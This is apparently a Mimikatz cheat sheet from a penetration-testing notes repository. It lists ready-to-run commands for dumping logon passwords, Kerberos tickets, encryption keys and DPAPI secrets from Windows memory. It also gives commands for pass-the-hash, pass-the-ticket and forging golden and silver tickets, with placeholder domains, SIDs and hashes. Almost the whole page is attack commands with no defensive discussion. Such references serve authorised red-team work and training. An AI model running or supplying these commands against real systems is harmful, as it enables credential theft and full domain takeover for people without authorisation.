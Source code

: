 # Mimikatz

Enable debug privileges

```
privilege::debug
```

## sekurlsa

Extract credentials from the system's memory

```
sekurlsa::logonpasswords
```

```
sekurlsa::logonPasswords full
```

dump and export Kerberos tickets from memory

```
sekurlsa::tickets /export
```

Pass the hash - PTH

```
sekurlsa::pth /user:Administrateur /domain:winxp /ntlm:f193d757b4d487ab7e5a3743f038f713 /run:cmd
```

## kerberos

dump and export Kerberos tickets from memory associated with active user sessions

```
kerberos::list /export
```

Pass the ticket - PTT

```
kerberos::ptt c:\chocolate.kirbi
```

Create a Golden Ticket&#x20;

```
kerberos::golden /admin:administrateur /domain:chocolate.local /sid:S-1-5-21-130452501-2365100805-3685010670 /krbtgt:310b643c5316c8c3c70a10cfb17e2e31 /ticket:chocolate.kirbi
```

### TGT

Interact with and manipulate Kerberos tickets

```
kerberos
```

## ekeys

Dump encryption keys from the system's memory

```
sekurlsa::ekeys
```

## DPAPI

Extract and decrypt credentials protected by DPAPI (Data Protection API) from memory

```
sekurlsa::dpapi
```

## Silver / Golden Ticket



```
kerberos::golden /user:utilisateur /domain:chocolate.local /sid:S-1-5-21-130452501-2365100805-3685010670 /krbtgt:310b643c5316c8c3c70a10cfb17e2e31 /id:1107 /groups:513 /ticket:utilisateur.chocolate.kirbi
```



```
kerberos::golden /domain:chocolate.local /sid:S-1-5-21-130452501-2365100805-3685010670 /aes256:15540cac73e94028231ef86631bc47bd5c827847ade468d6f6f739eb00c68e42 /user:Administrateur /id:500 /groups:513,512,520,518,519 /ptt /startoffset:-10 /endin:600 /renewmax:10080
```



```
kerberos::golden /admin:Administrator /domain:CTU.DOMAIN /sid:S-1-1-12-123456789-1234567890-123456789 /krbtgt:deadbeefboobbabe003133700009999 /ticket:Administrator.kiribi 
```
